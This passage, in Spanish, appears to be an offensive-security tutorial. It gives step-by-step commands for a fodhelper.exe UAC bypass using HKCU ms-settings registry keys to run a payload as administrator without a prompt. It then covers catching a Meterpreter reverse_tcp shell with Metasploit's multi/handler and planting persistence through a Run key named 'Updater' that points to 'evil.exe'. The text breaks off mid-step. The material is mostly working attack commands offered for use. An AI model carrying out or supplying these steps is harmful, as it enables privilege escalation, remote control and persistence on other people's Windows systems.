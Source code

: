 ##### 🧠 ¿Qué es?

`fodhelper.exe` es una utilidad legítima de Windows que **tiene ejecución con privilegios elevados (UAC)**.

##### 💥 El truco:

Puedes modificar el registro para que, al ejecutarse `fodhelper.exe`, ejecute _tu código_ como administrador **sin pedir permiso UAC**.

##### 🔧 Claves a crear:

```reg
[HKEY_CURRENT_USER\Software\Classes\ms-settings\Shell\Open\command]
@="cmd.exe"
"DelegateExecute"=""
```

##### 🛠️ Pasos:

1. Abre un símbolo del sistema (`cmd`) como usuario normal.
2. Ejecuta:

```cmd
reg add "HKCU\Software\Classes\ms-settings\Shell\Open\command" /ve /d "C:\Users\usuario\payload.exe" /f
reg add "HKCU\Software\Classes\ms-settings\Shell\Open\command" /v "DelegateExecute" /f
```

3. Luego ejecuta:

```cmd
fodhelper.exe
```

✅ ¡Tu payload se ejecutará con **privilegios elevados sin UAC**!

---

#### 🧬 PASO 5: Automatización desde Kali (con Meterpreter)

1. Ganas acceso con `msfconsole`:

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <tu IP Kali>
set LPORT 4444
run
```

2. En sesión Meterpreter:

```bash
reg setval -k HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run -v Updater -d C:\\Windows\\Temp\\evil.exe
```

3. También puedes ver claves del sistema:
